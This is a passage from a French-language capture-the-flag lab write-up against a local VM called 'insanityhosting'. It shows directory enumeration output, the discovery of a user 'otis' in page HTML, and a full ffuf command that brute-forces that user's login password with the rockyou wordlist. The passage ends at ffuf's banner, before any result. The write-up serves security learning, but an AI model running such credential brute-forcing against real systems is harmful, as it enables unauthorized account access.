 ```console
301        7l       20w      238c http://192.168.56.134/webmail
301        7l       20w      236c http://192.168.56.134/fonts
301        7l       20w      241c http://192.168.56.134/monitoring
200        1l       10w       57c http://192.168.56.134/licence
301        7l       20w      241c http://192.168.56.134/phpmyadmin
200     1024l     5354w        0c http://192.168.56.134/phpinfo.php
403        8l       22w      458c http://192.168.56.134/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.html
[####################] - 12m  3820686/3820686 0s      found:14      errors:122    
[####################] - 12m  3820686/3820686 4944/s  http://192.168.56.134/
```

Le fichier `index.php` indique juste `[105] Missing version directory`. Brute forcer un nom de paramètres en `GET` ou `POST` n'a mené nulle part.

Le dossier `data` pourrait correspondre à ce script, car il contient un fichier `VERSION`, cependant je ne vois pas quoi en faire.

Une énumération de virtual hosts avec le suffixe `infinityhosting.vm` n'a rien trouvé non plus.

Sur `/monitoring` on trouve une autre mire de login. Il est aussi mention d'un utilisateur nommé `otis` :

```html
<!-- Page title -->
<h1 class="title">Monitoring Service</h1>

<!-- Page description -->

<!-- Page cover image -->

<!-- Page content -->
<div class="page-content">
<p>Our team have been working hard to create you a free monitoring service for your servers. A special thank you to Otis, who led the team.</p>
<p>We are pleased to announce that from next week, you will be able to register for our monitoring service. This will remain free, whether you are a customer or not.</p>
<p>If you are interested, please e-mail us at <a href="mailto:hello@insanityhosting.vm,">hello@insanityhosting.vm,</a> and we can provide you more details.</p>                </div>
```

Les services sont longs à répondre, heureusement le mot de passe de `otis` est faible et au début de la wordlist `rockyou` :

```console
$ ffuf -u http://www.insanityhosting.vm/monitoring/index.php -d "username=otis&password=FUZZ" -X POST  -H "Content-type: application/x-www-form-urlencoded" -w wordlists/rockyou.txt -fr "Location: login.php"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://www.insanityhosting.vm/monitoring/index.php
 :: Wordlist         : FUZZ: wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=otis&password=FUZZ
 :: Follow redirects : false
```